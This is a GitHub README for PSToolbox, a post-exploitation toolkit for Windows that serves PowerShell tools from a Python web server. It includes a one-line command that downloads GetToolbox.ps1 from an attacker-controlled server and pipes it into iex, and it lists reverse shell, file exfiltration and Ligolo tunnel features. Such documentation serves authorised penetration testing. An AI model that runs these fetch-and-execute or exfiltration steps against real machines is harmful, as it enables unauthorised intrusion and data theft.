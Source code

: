 PSToolbox

PSToolbox is a collection of utilities designed for security operations, including network reconnaissance, reverse shell establishment, data exfiltration, and system analysis. This toolkit facilitates interactions with a python web server. It makes performing various other essential tasks in penetration testing and cybersecurity assessments easier once a foothold is established on a Windows machine.
Getting Started:

These instructions will guide you through setting up and using the PSToolbox on your local machine for development and testing purposes.
Prerequisites:

    Git
    Python 3
    Access to a PowerShell environment (for the victim machine simulation)

Installation:

    Clone the Repository

    Begin by cloning the PSToolbox repository to your local machine:

    gh repo clone jeamajoal/PSToolbox


Prepare the Loadables Directory:

# Add any required files to the 'loadables' directory
Navigate to the cloned repository and ensure the loadables directory contains all necessary tools and scripts you intend to serve.
At this time, I have only added to the directory the tools that I have created. For the other tools referenced in the gettoolbox.ps1 file you will need to add them yourself.

Start the Web Server:

Run the provided Python web server script, postserver.py, to serve the content of the loadables directory.

    python3 python/postserver.py -b 0.0.0.0 -p 8443 -u ~/uploads
    *NOTE:  The uploads dir is being set OUTSIDE of the loadables folder.  This will make your Get-TollboxItems (gti) run mor efficiently later if you so choose. Otherwise if you are ok waiting you can keep it in your loadables folder. 

Usage

To use the toolbox from a victim machine (simulated environment), run the following PowerShell command. This command utilizes Invoke-WebRequest (alias iwr) to source the GetToolbox.ps1 script from the web server:

powershell

iwr http://<YourServerIP>:<Port>/GetToolbox.ps1 -UseBasic | iex

You will be prompted for your ip and the web server port.
Features

    Ligolo Agent Connection: Initiates a reverse tunnel connection using Ligolo.
    SharpHound Execution: Executes SharpHound for Active Directory enumeration.
    Reverse Shell: Depending on the type (NC/Sliver), initiates a reverse shell.
    File Exfiltration: Facilitates sending files to a specified server.
    Toolbox Item Retrieval: Downloads items from a web server to the local system.

This project is licensed under the MIT License - see the LICENSE.md file for details.
Acknowledgments



